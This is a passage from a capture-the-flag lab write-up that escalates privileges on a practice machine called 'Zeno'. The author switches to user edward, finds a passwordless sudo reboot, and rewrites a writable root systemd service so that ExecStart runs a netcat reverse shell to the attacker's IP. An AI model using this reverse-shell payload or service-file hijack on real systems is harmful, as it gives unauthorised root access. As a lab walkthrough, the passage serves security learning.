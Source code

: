 I can use the new password to `su edward`

```
bash-4.2$ su edward
Password: 
[edward@zeno tmp]$ whoami
edward
```

Lets go ahead and grab that user flag in Edward's home directory:

![zeno_user_flag.png](../assets/zeno_assets/zeno_user_flag.png)

### Privilege Escalation

I decided to use Edward's credential to SSH in for some persistence in case I lost my shell.

Seeing what edward can perform as root we see he can `sudo reboot`

```
[edward@zeno tmp]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

This confirms that the writable service file is the escalation path.

Lets overwrite ExecStart in /etc/systemd/system/zeno-monitoring.service to include a reverse shell, reboot the system and catch a shell bask as root:


```
┌──(ryan㉿kali)-[~/THM/Zeno]
└─$ ssh edward@10.10.231.208
edward@10.10.231.208's password: 
Last login: Fri Jun 14 17:26:09 2024 from ip-10-6-72-91.eu-west-1.compute.internal
[edward@zeno ~]$ vi /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "nc -e /bin/bash 10.6.72.91 443"		

[Install]
WantedBy=multi-user.target
```
